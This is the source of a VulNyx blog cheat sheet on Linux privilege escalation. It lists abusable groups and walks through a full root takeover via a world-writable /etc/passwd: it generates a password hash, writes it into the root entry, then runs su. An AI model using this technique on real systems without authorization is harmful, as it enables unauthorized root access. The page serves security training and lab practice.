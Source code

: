 ```yaml
---
title: 🐧 Privilege Escalation (Linux)
date: 0003-01-01
layout: post
---
```


### Groups

#### disk

##### adm

##### docker

##### lxd

##### fail2ban

##### video

---

### /etc/passwd (Writable)

If a low-privileged user has permissions to write to the `/etc/passwd` file, an attacker can remove the `:x:` (on the `root` user line) and add a **hash**.  
This will change the file where a user's authentication is performed, from being done through the `/etc/shadow` file to being done through the `/etc/passwd` file.

##### Check Permissions

```ruby
low@vulnyx:~$ ls -l /etc/passwd
-rw----rw- 1 root root 1395 abr 21 20:16 /etc/passwd
```

##### Create Hash

```ruby
root@kali:~# openssl passwd -1 "P@ssword123"
$1$TSMXnd0L$DwQWYa.zuPqtZUjyRLWxy0
```

##### Add Hash

```ruby
# before
low@vulnyx:~$ cat /etc/passwd |grep root
root:x:0:0:root:/root:/bin/bash

# after
low@vulnyx:~$ cat /etc/passwd |grep root
root:$1$TSMXnd0L$DwQWYa.zuPqtZUjyRLWxy0:0:0:root:/root:/bin/bash
```

##### Authenticate

```ruby
low@vulnyx:~$ su -
Password:

root@vulnyx:~# id
uid=0(root) gid=0(root) grupos=0(root)
```

---

#### Disclaimer

> ##### WARNING
> All techniques presented in this blog are for educational and ethical purposes.  
> The [VulNyx](https://vulnyx.com) team is not responsible for any misuse or damage caused to third party systems or infrastructure.
{: .block-warning }

<br><br>
<div style="display: flex; justify-content: center; align-items: center; width: 100%; margin-top: 20px;">
  <img src="/assets/gitbook/images/favicon.png" style="width: 30px; height: auto; margin-right: 6px;">
  <span>© VulNyx 2023-2025</span>
</div>
